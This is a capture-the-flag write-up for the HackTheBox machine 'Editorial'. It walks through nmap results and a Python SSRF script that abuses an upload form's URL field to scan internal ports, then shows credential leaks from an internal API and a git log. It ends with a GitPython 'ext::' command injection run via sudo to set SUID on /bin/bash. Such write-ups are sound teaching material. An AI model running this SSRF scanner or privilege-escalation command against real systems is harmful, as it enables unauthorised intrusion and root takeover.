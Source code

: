 ```yaml
---
title: Editorial Hackthebox
date: 13-7-2024
categories: [hackthebox,writeup] 
tags: [Gitpython,scripting,SSRF]
---
```


# Editorial

![Editorial](/assets/img/editorial/editorial.jpeg)

Editorial is a season 5 machine from week 9. It is an easy box but somehow the enumeration part need to be really careful. The host have two(2) port open and one of it is http port. We found a file upload function where it have a book url input. The url input can be connect to our python web server. However, we can find an internal port from the function. Once we get the foothold, we found .git repo where it leak the user credentials. A python script can be run as sudo with that user. Finally, we can get root with an exploit found in library in python script.


## **Recon**

We launch NMAP Scan.

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the web application, theres an upload file function. The yellow highlighted in below image is the injection point where we can access the internal port.

![alt text](/assets/img/editorial/image-1.png)

Below screenshot shows that the URL will try to connect our python web server once we supply the URL input. The screenshow below is my local IP.

![alt text](/assets/img/editorial/image-2.png)

Moving on, I try numerous type of file to upload it to the server. However, the application does not have access to see the uploaded file. We can try to use the localhost IP address and see the response with burpsuite. It shows that an image has been response from the localhost URL. We can enumerate the internal port from here.

![alt text](/assets/img/editorial/image-4.png)

We can enumerate it with the script below. The script below will enumerate each of the port number and provide the response of each port.

```python
import requests

def file_upload(ports):
    url = "http://editorial.htb/upload-cover"
    headers = {
        "Host": "editorial.htb",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "multipart/form-data; boundary=---------------------------2558739193374546790339287871",
        "Origin": "http://editorial.htb",
        "Connection": "close",
        "Referer": "http://editorial.htb/upload"
    }
    data = (
        "-----------------------------2558739193374546790339287871\r\n"
        'Content-Disposition: form-data; name="bookurl"\r\n\r\n'
        f"http://127.0.0.1:{ports}/\r\n"
        "-----------------------------2558739193374546790339287871\r\n"
        'Content-Disposition: form-data; name="bookfile"; filename="test.txt"\r\n'
        "Content-Type: text/plain\r\n\r\n"
        "test content\r\n"
        "-----------------------------2558739193374546790339287871--\r\n"
    )

    x = requests.post(url,headers=headers,data=data)
    return x.status_code, x.text

port = range(4000,5500)
for ports in port:
    status_code, text = file_upload(ports)
    if text not in "/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg":
        print(f"[+] Port {ports} : Status code = {status_code} & Response = {text}")
    else:
        print(f"[+] Port {ports}: Same response")

```

The result show that the response of the port 5000 is different from the other port. It gave us a new endpoint we can look at it.

![alt text](/assets/img/editorial/image-7.png)

We can browse thru the new endpoint with burp.

![alt text](/assets/img/editorial/image-8.png)

From the above image, we can browse to each of the endpoint that we've found. We can browse it thru the input injection point to get the content of the file. Below is the content of **"/api/latest/metadata/messages/authors"** endpoint. The content reveal a credentials.

![alt text](/assets/img/editorial/image-9.png)

We can ssh into the server with the credentials provide from the previous image.

![alt text](/assets/img/editorial/image-10.png)

## dev Shell

In dev home directory, we can find .git repo in /apps directory. From there, we can see the git log for the repo.

![alt text](/assets/img/editorial/image-11.png)

We can see the content of the git log we found with **"git show"** command.

![alt text](/assets/img/editorial/image-12.png)

## prod shell

Run sudo -l to check whether our current user can run any file as root.

![alt text](/assets/img/editorial/image-15.png)

The result shows that a python script can be run as root. We can review the python script and look for any information that we can use.

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

We can see that the function of this script is to clone a git repo into the "/opt/internal_apps/clone_changes". After several time of research and try to find the exploitation path. The git library have a rce vulnerability [gitPython](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858). We can view the git version with **pip list** command to look for the installed library.

![alt text](/assets/img/editorial/image-16.png)

In order to exploit it, we can use this vulnerability that we've found and craft a malicious code. Below is how i exploit the 

![alt text](/assets/img/editorial/image-14.png)

Below are the command that can be used to grant **/bin/bash** file SUID permission.

```bash

sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% +s% /bin/bash'
```


Thank you for reading.
